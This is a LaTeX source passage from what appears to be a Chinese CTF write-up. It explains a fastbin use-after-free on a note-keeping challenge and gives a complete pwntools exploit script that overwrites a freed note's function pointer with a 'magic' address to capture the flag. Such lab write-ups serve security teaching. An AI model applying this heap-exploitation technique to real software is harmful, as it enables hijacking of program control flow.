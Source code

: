 \documentclass{article}
\begin{document}
    已知fastbin会根据chunk的大小进行管理，顺序为先入后出，其中16字节为最小的chunk。为了更改执行流，需要新创建的note用到原来free掉的note的头(因为notelist存放的是note的头的首地址)，并将content的内容改为magic的函数地址，这样执行print(0)操作时函数执行流会被成功篡改，由于分配content前需要分配16字节的头，则最开始需要添加两个note并删除，且给这两个note分配的content大小不能为8字节，使得fastbin管理时不会分配出这部分空间，最终得到脚本如下：    
    
    \begin{itemize}
        \item 脚本1
        \begin{lstlisting}{language=Python}
from pwn import *
io = remote("10.0.0.10", 40010)

def add_note(size, content):
	io.recvuntil(":")
	io.sendline("1")
	io.recvuntil(":")
	io.sendline(str(size))
	io.recvuntil(":")
	io.sendline(content)

def delete_note(index):
	io.recvuntil(":")
	io.sendline("2")
	io.recvuntil(":")
	io.sendline(str(index))

def print_note(index):
	io.recvuntil(":")
	io.sendline("3")
	io.recvuntil(":")
	io.sendline(str(index))

magic_addr = 0x08048945

add_note(32, "aaaa")
add_note(32, "bbbb")

delete_note(0)
delete_note(1)

add_note(8, p32(magic_addr))
print_note(0)

io.interactive()

        \end{lstlisting}
    \end{itemize}

    运行结果如下，得到flag。
    \begin{figure}[H]
    	\begin{center}
    		\includegraphics[width=0.8\textwidth]{3.png}
    	\end{center}
    \end{figure}
 
   
\end{document}
